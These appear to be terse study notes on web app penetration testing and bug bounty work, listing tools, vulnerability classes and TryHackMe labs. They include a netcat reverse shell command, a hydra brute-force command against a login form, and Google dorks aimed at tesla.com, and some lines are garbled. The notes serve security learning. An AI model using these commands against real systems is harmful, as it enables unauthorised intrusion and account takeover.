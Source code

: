 # Web APP Penetration Testing (Bug Bounty)

Web application penetration testing is a security assessment performed on a web application to identify
vulnerabilities and weaknesses that could be exploited by attackers. It involves simulating real-world
attacks to uncover potential security flaws.

Bug bounty programs, on the other hand, are initiatives offered by organizations to incentivize security
researchers and ethical hackers to find and report vulnerabilities in their web applications.
These programs provide rewards or bounties to individuals who discover and responsibly disclose
security issues.

### dirb tool

- run metaspoit vm
- open the ip of it
- dirb

### burpsuite tool

- shellshock exploitation
- command injection
- nc -lvp 5555
- i nc -e /bin/bash (ip) 5555
- meterpreter shell
- msfvenom
- xss and cookie stealing
- sql injection
- csrf vulnerability
- hydra brute force attack
- burpsuite intruder

### enumeration and information gathering

- nmap, nikto, dirb, burpsuit
- google dorks
- site:sesla.com filetype:pdf
- "@tesla.com" -site:tesla.com
- ping, host, nslookup
- whois tesla.com
- whatweb (target ip)
- dirb http://targetip
- nmap --script vuln (ip)
- nikto -host (ip)

### burpsuite

- configuration -> install burpsuite certificate
- burpsuite intercept -> not forward if not open -> proxy tab
- burpsuite repeater
- burpsuite intruder

### html injection

visit try hack me

- setup openvpn configuration

### monetizing bug hunting

- practice as much as needed
- bug bounty program participation
- read terms and conditions carefully
- website: hackerone.com, bugcrowd.com, cobalt.io, synack.com, intigriti.com

### command injection execution

- system command directly
- wireshark
- php reverse shell
- search phc one time reverse shell
- nc -lvp 1234

### broken authentication

- session hijacking, session fixation, session management
- run openvpn
- go to try hack me -> web app hacking -> broken authentication task 6/7
- broken authentication via cookies
- http request

### bruteforce attack

- using burpsuite intruder
- switch to cluster bomb
- hydra
- hydra (target ip) http-post-form "/login:username=^USER^&password=^PASS^:invalid" -l user.txt -P /usr/share/wordlists/rockyou.txt
- hydra ssh attack

### sensitive data exposure

- page source code
- crackstation.net -> to crack hash

### broken access control (idor)

- try hack me -> web app hacking -> broken access control task 17/18

### security misconfiguration

- pefall psswd -> tomcat(php)

### xss - cross site scripting

- injecting js code
- changing page content
- bypass filter
- download file
- dom xss

### sql injection

- unfiltered input

### xml, xpath, xxe injection

### components with known vulnerabilities

### insufficient logging and monitoring
